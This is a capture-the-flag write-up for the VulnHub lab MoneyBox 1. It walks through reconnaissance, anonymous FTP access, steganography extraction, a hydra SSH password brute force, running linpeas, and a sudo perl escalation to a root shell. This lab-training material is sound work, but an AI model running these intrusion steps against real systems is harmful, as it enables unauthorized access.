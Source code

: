 ```yaml
---
title: "Moneybox CTF Write-up"
classes: wide
header:
  teaser: /assets/images/CTF-Writeups/Moneybox-CTF-Writeup/logo.png
ribbon: MidnightBlue
description: "We launch target machine and our kali and opened terminal as root. Check ifconfig and grab your ip address and start a scan....."
categories:
  - CTF Writeups
toc: true
---
```


CTF link: 

[MoneyBox: 1](https://www.vulnhub.com/entry/moneybox-1,653/)

- We launch target machine and our kali and opened terminal as root.
- Check ifconfig and grab your ip address and start a scan.

> netdiscover -r xx.xx.xx.0/24
> 
- Pick the ip address and copy it.

We have to check ip for which ports runs which apps.

- First we check nmap

> nmap -sV -sC xx.x.x.x
> 

![Untitled](/assets/images/CTF-Writeups/Moneybox-CTF-Writeup/Untitled.png)

We see that our ip runs 3 ports: ftp, ssh,http.

We should check if there is a website and what we can find there. As usual page-source should be checked.

![Untitled](/assets/images/CTF-Writeups/Moneybox-CTF-Writeup/Untitled%201.png)

Also checked page-source, there is nothing there. So we should look for hidden directories.

> gobuster dir -u [http://192.168.1.6/](http://192.168.1.6/) -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
> 

![Untitled](/assets/images/CTF-Writeups/Moneybox-CTF-Writeup/Untitled%202.png)

Check this directories, don’t forget to check page-sources.

![Untitled](/assets/images/CTF-Writeups/Moneybox-CTF-Writeup/Untitled%203.png)

![Untitled](/assets/images/CTF-Writeups/Moneybox-CTF-Writeup/Untitled%204.png)

We check secret directory and its page-source given.

![Untitled](/assets/images/CTF-Writeups/Moneybox-CTF-Writeup/Untitled%205.png)

We found a secret key, probably a password. We had ftp and ssh port, we can try something. We should try to access ftp server as anonymous with no password first. Maybe we can find something.

![Untitled](/assets/images/CTF-Writeups/Moneybox-CTF-Writeup/Untitled%206.png)

We found a image file, and download it.

> get trytofind.jpg
> 

Maybe there is a hidden message in this image, because why not? We are trying everything.

> steghide extract -sf trytofind.jpg
> 

![Untitled](/assets/images/CTF-Writeups/Moneybox-CTF-Writeup/Untitled%207.png)

We entered found key “3xtr4ctd4t4” as passphrase and got a something. Check data.txt.

![Untitled](/assets/images/CTF-Writeups/Moneybox-CTF-Writeup/Untitled%208.png)

Password is weak and renu is the name. Let’s check ssh if we can find renu’s password with brute-force attack.

> hydra -l renu -P /usr/share/wordlists/rockyou.txt ssh://192.168.1.6
> 

![Untitled](/assets/images/CTF-Writeups/Moneybox-CTF-Writeup/Untitled%209.png)

We found renu’s password: “987654321”. Let’s enter ssh with these.

![Untitled](/assets/images/CTF-Writeups/Moneybox-CTF-Writeup/Untitled%2010.png)

We found the first flag. Look around.

![Untitled](/assets/images/CTF-Writeups/Moneybox-CTF-Writeup/Untitled%2011.png)

We found second flag. 

![Untitled](/assets/images/CTF-Writeups/Moneybox-CTF-Writeup/Untitled%2012.png)

We can not cd root, we have to be root. Other user lily maybe can, but password? We can look at linpeas. Download it to /tmp/ directory.

> wget [https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh](https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh)
> 

![Untitled](/assets/images/CTF-Writeups/Moneybox-CTF-Writeup/Untitled%2013.png)

When we check all data we see that htere is authorized keys. Renu can login ssh as lily.

![Untitled](/assets/images/CTF-Writeups/Moneybox-CTF-Writeup/Untitled%2014.png)

> ssh lily@192.168.1.6
> 

![Untitled](/assets/images/CTF-Writeups/Moneybox-CTF-Writeup/Untitled%2015.png)

We login as lily and lily can run /usr/bin/perl as root. So we can get the shell with this. 

> Source: [https://gtfobins.github.io/gtfobins/perl/](https://gtfobins.github.io/gtfobins/perl/)
> 

> `sudo perl -e 'exec "/bin/sh";'`
> 

![Untitled](/assets/images/CTF-Writeups/Moneybox-CTF-Writeup/Untitled%2016.png)

Now we can cd root.

![Untitled](/assets/images/CTF-Writeups/Moneybox-CTF-Writeup/Untitled%2017.png)

All done.